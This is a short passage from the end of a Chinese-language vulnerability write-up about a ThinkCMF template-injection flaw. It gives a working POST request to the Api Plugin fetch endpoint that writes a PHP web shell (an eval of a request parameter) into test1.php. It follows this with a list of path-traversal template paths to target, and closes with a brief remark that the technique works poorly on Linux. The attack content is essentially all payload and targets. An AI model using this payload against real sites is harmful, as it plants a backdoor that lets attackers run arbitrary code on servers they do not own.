 
```bash
url:http://thinkcmf.test/index.php?g=Api&m=Plugin&a=fetch
post:
templateFile=/../../../public/index
prefix=''
content=<php>file_put_contents('test1.php','<?php eval($_REQUEST[11]);')</php>
```


```bash
/../../../public/index
/../../../public/exception
/../../../data/index
/../../../data/runtime/index
/../../../plugins/Mobileverify/View/admin_index
/../../../plugins/Mobileverify/View/index
/../../../plugins/Mobileverify/View/widget
/../../../plugins/Demo/View/admin_index
/../../../plugins/Demo/View/index
/../../../plugins/Demo/View/widget
/../../../application/Install/View/Public/footer
/../../../application/Install/View/Public/head
/../../../application/Install/View/Public/header
/../../../application/Common/index
/../../../application/Portal/Lang/en-us/index
/../../../application/Api/Lang/en-us/index
/../../../application/Api/Lang/zh-cn/index
/../../../application/Comment/Lang/en-us/index
/../../../application/Comment/Lang/zh-cn/index
```

还有最后一句废话：模版注入对于linux 并不好用 : )

差不多了，剩下的自己去thinkcmf里面自己找

四、参考链接

文章来源于https://www.yuque.com/pmiaowu/bfgkkh/aiiak1
